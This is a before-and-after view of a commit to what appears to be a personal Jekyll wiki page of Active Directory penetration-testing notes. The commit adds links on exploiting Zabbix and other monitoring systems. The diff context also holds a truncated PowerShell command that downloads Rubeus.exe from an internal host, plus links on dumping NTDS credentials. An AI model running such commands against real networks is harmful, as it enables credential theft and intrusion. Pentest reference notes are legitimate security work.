

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 10228 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

```diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -389,6 +389,12 @@ powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.e
 **[ntdsutil](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#a-d-maintenance-ntdsutil)**
 **[VSSAdmin](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#volume-shadow-copy-vssadmin)**
 
+## Exploitation of Monitoring Systems
+**[Exploitation of Monitoring Systems](https://github.com/HD421/Monitoring-Systems-Cheat-Sheet)**
+
+  - [Zabbix Agent](https://medium.com/@ferspider3/enabling-zabbix-agent-windows-to-accept-remote-commands-2597c40259b6)
+    - Scripts in Zabbix can be used to perform custom monitoring checks, collect and process data from external sources, and automate tasks based on monitoring events.
+
 -----------------------------------------------------------------------
 
 # Active Directory Tools
```
